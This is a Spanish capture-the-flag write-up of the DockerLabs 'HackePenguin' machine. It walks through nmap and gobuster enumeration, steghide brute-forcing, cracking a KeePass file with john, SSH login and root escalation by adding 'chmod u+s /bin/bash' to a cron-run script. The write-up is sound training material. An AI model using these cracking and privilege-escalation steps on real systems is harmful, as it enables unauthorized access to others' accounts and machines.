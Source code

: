 Máquina HackePenguin

Iniciamos con mi rutina básica de reconocimiento de nmap:

```
sudo nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN Target
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:13:95:24:c7:08:e8:36:51:6d:ab:b2:e5:3e:3b:da (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNVFhFPx46QZ+sM4vC3yecbwD2hDgxKBg8x/alXdgL/ojBUsbliyqCPFfQ08+WTNu+4fipx7zg9V8ZjKDxFmBnw=
|   256 e2:f3:81:1f:7d:d0:ea:ed:e0:c6:38:11:ed:95:3a:38 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIWG6446chvKHIhxdIVHwcEw1kXFORyLzANPqUKTdCku
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Bueno pues vemos una página web y un ssh activo, vamos a enumerar la página web:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/c964245a-da2d-4e32-aabe-ca9296101542)

Bueno es un apache por defecto, vamos a fuzzear un poco a ver si encontramos algo:

```
gobuster dir -u "http://172.17.0.2" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10671]
/penguin.html         (Status: 200) [Size: 342]
/.html                (Status: 403) [Size: 275]
Progress: 406141 / 4741020 (8.57%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 407142 / 4741020 (8.59%)
===============================================================
Finished
===============================================================
```

Ya hemos encontrado cositas, vamos a verlo:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/266c4060-d7fd-4713-a74c-863dab65d04d)

No vemos nada a priori, vamos a ver la imagen, que es lo unico que tenemos de valor, así que por probar vamos a descargarnos la imagen con 
wget la imagen y a meterle un rockyou con stegide:

Para hacer fuerza bruta con steghide tengo un repositorio: https://github.com/FakeLuci/brute-force-on-steghide.git

Configuramos el script y encontramos que la contraseña es chocolate:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/5a02c44d-d5df-49ea-89f7-ffdb337598ee)

Al parecer hemos extraido un archivo penguin.kdbx, sinceramente no tengo ni idea de que es un archivo .kdbx, investigando he encontrado que
es un archivo de keepass, pues bueno vamos a descargarnos keepass para ver que hay dentro:

Intentamos entrar al archivo de keepas para ver uqe hay dentro:

```
keepass2 penguin.kdbx
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/6992b937-9586-44d7-bc76-9aa94ef39bce)

Bueno al parecer la contraseña chocolate no es la contraseña master de este archivo, he estado investigando en internet y este mismo archivo se puede desencriptar con john
de la siguiente manera:

```
keepass2john penguin.kdbx > password
john password
```

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/4e435199-8253-4afb-a3fa-1c1ea3c9e682)

Pues si sabemos que la paswword de el archivo es "password1" pues entramos en el archivo

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/7100dbf4-a2c7-4ab7-8b78-f6ef569e6de4)

teniendo estas credenciales ahora podemos entrar por ssh:

Bueno pues probando con el usuario pinguino no va, he probado con penguin y ahora si va, vamos a ver uqe hay dentro:

Una vez dentro utilizamos el siguiiente comando para mejorar la consola:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Bueno nada mas entrar he hecho ls y he encontrado un script bastante tentador, vamos a ver si es una tarea cron con el siguinete script:

```
#!/bin/bash

old_process=$(ps -eo user,command)

while true; do
    new_process=$(ps -eo user,command)
    diff <(echo "$old_process") <(echo "$new_process") | grep "^[<>]" | grep -vE "procmon|command|kworker"
    old_process=$new_process
done
```

y bueno de primeras ya vemos que se ejecuta muchisimas veces uspongo que estara cada segundo o algo así:

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/e78f8f5a-4920-40b7-bcac-8cd18230f396)

pues bueno tan simple como poner dentro de este script: chmod u+s /bin/bash

![image](https://github.com/FakeLuci/Dockerlabs-Writeps/assets/96147300/9069eee9-b0ee-49e7-8e67-34bc4ae2908b)

Esta máquina me ha gustado mucho ya que he aprendido a saber y desencriptar que es un archivo .kdbx y a utilizar keepass2
ademas de utilizar unas cuantas herramientas scripteadas sin tener que hacer copia y pega como el script de steghide y el procmon

Dificultado 2/5
Diversión 2/5




